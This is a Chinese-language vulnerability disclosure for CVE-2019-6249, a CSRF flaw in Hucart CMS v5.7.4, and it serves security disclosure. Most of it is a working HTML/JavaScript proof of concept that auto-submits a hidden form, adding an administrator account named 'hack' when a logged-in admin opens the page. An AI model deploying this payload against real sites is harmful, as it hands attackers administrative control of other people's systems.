 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Hucart cms v5.7.4 CSRF漏洞可任意增加管理员账号|2019-01-13|AllenChen（520allen@gmail.com）|[http://www.hucart.com/](http://www.hucart.com/) | [http://www.hucart.com/](http://www.hucart.com/) |v5.7.4| [CVE-2019-6249](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-6249)|  

#### 漏洞概述  

> Hucart cms v5.7.4版本存在一个CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可增加一个名为hack的管理员账号。   

### POC实现代码如下：  

> exp代码如下：  
> 增加一个名为hack密码为hack123的管理员账号。

``` html
<html><body>
<script type="text/javascript">
function post(url,fields)
{
var p = document.createElement("form");
p.action = url;
p.innerHTML = fields;
p.target = "_self";
p.method = "post";
document.body.appendChild(p);
p.submit();
}
function csrf_hack()
{
var fields;

fields += "<input type='hidden' name='adm_user' value='hack' />";
fields += "<input type='hidden' name='adm_email' value='admin@hack.com' />";  
fields += "<input type='hidden' name='adm_mobile' value='13888888888' />";  
fields += "<input type='hidden' name='adm_pwd' value='hack123' />";  
fields += "<input type='hidden' name='re_adm_pwd' value='hack123' />";  
fields += "<input type='hidden' name='adm_enabled' value='1' />";  
fields += "<input type='hidden' name='act_type' value='add' />";  
fields += "<input type='hidden' name='adm_id' value='' />";  

var url = "http://localhost/hucart_cn/adminsys/index.php?load=admins&act=edit_info&act_type=add";
post(url,fields);
}
window.onload = function() { csrf_hack();}
</script>
</body></html>
```
